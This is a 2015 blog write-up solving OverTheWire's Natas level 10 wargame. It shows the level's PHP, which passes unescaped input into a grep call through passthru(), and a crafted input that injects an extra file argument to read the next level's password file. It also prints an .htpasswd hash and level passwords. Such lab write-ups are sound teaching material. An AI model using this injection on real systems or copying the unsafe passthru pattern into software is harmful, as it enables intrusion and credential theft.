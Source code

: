 ```yaml
---
layout: post
title:  "Natas Level 10"
date:   2015-09-28 19:45
categories: natas wargame web overthewire
author: Leander
---
```

This is a solution guide to the Natas10 Level at [overthewire](http://natas10.natas.labs.overthewire.org). This write-up was created on 28 September 2015.

First connect to the website
<ul><li>http://natas10.natas.labs.overthewire.org</li>
<li>Enter the following as the username natas9 and password nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu</li></ul>

Let's begin first by clicking on view source and examining the code for this level.
{% highlight php linenos %}
<?php
$key = "";
 
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }}?>
{% endhighlight %}

This challenge is very similar to the last challenge except that it filters and checks for the following characters <code>[;|&]</code>. After the check it still uses the same php function called *passthru()*. If you want to learn more about *passthru()* check out this [link](http://php.net/manual/en/function.passthru.php). So now we have to find a way to send *passthru()* a command which will show us the flag inside /etc/natas_webpass/natas11.

This time we are going to send grep an actual valid command to search for our key. You can find more about grep [here](http://www.tutorialspoint.com/unix_commands/grep.htm). Of note we know that we don't have to worry about case due to the *-i* switch, and we also know that grep expects to have a pattern to search for followed by a named input file. So let's try searching for all text with .* in the /etc/natas_webpass/natas11 directory. Now let's place the crafted input into the search field:

<code> .* /etc/natas_webpass/natas11 #</code>

Which returns our password on the last line:
<figure class="highlight"><pre><code class="language-text" data-lang="text">.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$sDWfJg4Y$ewf9jvw0ChWUA3KARHisg.
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK</code></pre></figure>

The password is natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
